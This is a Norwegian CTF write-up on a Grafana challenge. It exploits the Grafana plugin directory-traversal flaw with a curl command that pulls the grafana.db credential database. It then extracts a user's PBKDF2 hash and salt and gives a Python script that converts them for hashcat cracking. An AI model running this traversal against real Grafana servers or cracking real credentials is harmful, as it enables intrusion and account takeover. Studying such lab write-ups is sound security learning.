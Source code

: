 # Grafana

## Hente databasen
Grafana-versjonen er sårbar for directory traversal.

Brukte scriptet på https://www.exploit-db.com/exploits/50581 til å identifisere hvilken plugin-path som fungerte, og så lastet ned med curl for å få databasen:

```
curl --path-as-is http://grafana.gojira.rocks:3000/public/plugins/mssql/../../../../../../../../../../../../../var/lib/grafana/grafana.db --output grafana.db
```
Kjørte bare strings på filen og greppet etter "revenue" for å finne datoen til første flagg.

## Knekke passord
Sergei ligger i users-tabellen:
```
password = 251e3e14c9120255181277687ee4f6031f93cc134812e6961d13dbdcfa234a989cb8b941e0c6c82e3cb57eaaf6c3a2bd0e10
salt = 2kpLTS5IUO
rands = pxm945Auhb
```

Grafana bruker PBKDF2-HMAC-SHA256 med 10k iterasjoner ([lenke](https://nusgreyhats.org/posts/writeups/a-not-so-deep-dive-in-to-grafana-cve-2021-43798/)):

```go
func EncodePassword(password string, salt string) (string, error) {
	newPasswd := pbkdf2.Key([]byte(password), []byte(salt), 10000, 50, sha256.New)
	return hex.EncodeToString(newPasswd), nil
}
```

Hashcat forventer at både salt og passord er base64 i denne modusen. Har et script lagd ifbm en HTB-maskin (Health) som konverterer:
```python
#!/usr/bin/python3
import sys, base64, binascii

pwd = bytes(sys.argv[1], 'utf-8')
salt = bytes(sys.argv[2], 'utf-8')

salt_b64 = (base64.b64encode(salt)[:14]).decode('utf-8')
pwd_b64 = base64.b64encode(binascii.unhexlify(pwd)).decode('utf-8')

print("sha256:10000:{}:{}".format(salt_b64, pwd_b64))
```
```
sha256:10000:MmtwTFRTNUlVTw:JR4+FMkSAlUYEndofuT2Ax+TzBNIEuaWHRPb3PojSpicuLlB4MbILjy1fqr2w6K9DhA=
```

Kjører hashcat med rockyou som ordliste, men her var det bom.

> ### Oppdatering
> Her lærte jeg etterpå at passordet var kort, men det måtte bruteforces: "rør123" Sergei har tydeligvis gått på norskkurs :-&